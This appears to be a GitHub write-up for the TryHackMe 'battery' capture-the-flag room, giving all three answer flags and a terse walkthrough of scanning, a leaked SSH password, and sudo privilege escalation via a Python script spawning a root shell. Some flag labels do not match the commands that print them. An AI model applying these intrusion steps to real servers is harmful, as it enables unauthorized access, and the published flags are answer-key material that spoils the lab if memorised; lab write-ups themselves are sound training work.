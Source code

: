 # <div align="center">[battery](https://tryhackme.com/r/room/battery)</div>
<div align="center">CTF designed by CTF lover for CTF lovers</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/044f2d97-3571-49d0-811f-cb13b31d4293" height="200"></img>
</div>



## Task 1. battery

Electricity bill portal has been hacked many times in the past , so we have fired one of the employee from the security team , As a new recruit you need to work like a hacker to find the loop holes in the portal and gain root access to the server .

Hope you will enjoy the journey ! 

### Base Flag : 
```
THM{6f7e4dd134e19af144c88e4fe46c67ea}
```
### User Flag :
```
THM{20c1d18791a246001f5df7867d4e6bf5}
```
Root Flag :
```
THM{db12b4451d5e70e2a177880ecfe3428d}
```

# Writeup

* ```nmap -sSCV <IP>```
* ```gobuster dir -u http://<IP> -w /usr/share/dirb/wordlists /common.txt -x txt,php```
* ```<IP>/register.php```
* ```<IP>/report```
* ```strings report```
* ```echo "base64EncodedString" | base64 -d >> output.php```
* ```cyber:super#secure&password!```
* ```ssh cyber@<IP>```
* ```cat flag1.txt```
```
THM{6f7e4dd134e19af144c88e4fe46c67ea}
```

* ```sudo -l```
* ```echo 'import os; os.system("/bin/sh")' > /home/cyber/run.py```
* ```chmod +x run.py```
* ```cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py```
* ```cat /root/root.txt```
```
THM{20c1d18791a246001f5df7867d4e6bf5}
```

* ```cd /home```
* ```ls```
* ```cyber yash```
* ```cd cyber```
* ```ls```
* ```cyber yash```
* ```emergency.py fernet flag2.txt root.txt```
* ```cat flag2.txt```

THM{db12b4451d5e70e2a177880ecfe3428d}
